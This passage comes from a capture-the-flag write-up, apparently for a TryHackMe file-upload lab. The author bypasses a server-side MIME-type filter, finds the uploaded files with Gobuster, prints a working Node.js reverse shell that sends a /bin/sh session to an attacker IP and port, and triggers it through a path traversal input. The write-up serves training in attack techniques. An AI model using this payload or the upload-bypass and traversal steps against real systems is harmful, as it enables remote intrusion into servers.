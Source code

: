I replaced the image data in the the captured request with the base64 string of a test .txt file and received a success response.

```bash
$ curl 'http://jewel.uploadvulns.thm/' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/json' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://jewel.uploadvulns.thm' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://jewel.uploadvulns.thm/' -H 'Sec-GPC: 1' --data-raw '{"name":"test.txt","type":"image/jpeg","file":"data:image/png;base64,dGVzdDEyMwo="}'
success
```

I had expected to encounter some server side filters, so was surprised that this worked. The I realized I hadnn't change the mime type.  I retried with  "name":"test.txt","type":"text/plain" and it received an "invalid" response. This suggested that server side filtering was implemented and was checking the upload mime type.

I ran Gobuster again to check if my hunches about file names  and storage location was correct and there were now two more files in the /content folder. Navigating to the first in the browser revealed it was the test .jpeg, and the second the browser would not display due to errors, suggesting this was likely the .txt file. I used wget to download the file and confirm:

```bash
$ wget http://jewel.uploadvulns.thm/content/WFH.jpg 
$ cat WFH.jpg 
test123
```

## Exploiting
I grabbed a node.js reverse shell from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs) :

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []); 
    var client = new net.Socket();
    client.connect(4242, "10.2.59.82", function(){ 
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Set the ip in the file, base64 encoded it and uploaded with Curl. Another Gobuster scan on the /content directory provides the file name.

I set up a netcat listener on my machine, then head to /admin. The form tells me it looks in the /modules folder, so I attempt to traverse to /content by entering the following in the input box:

```
../content/IOR.jpg
```

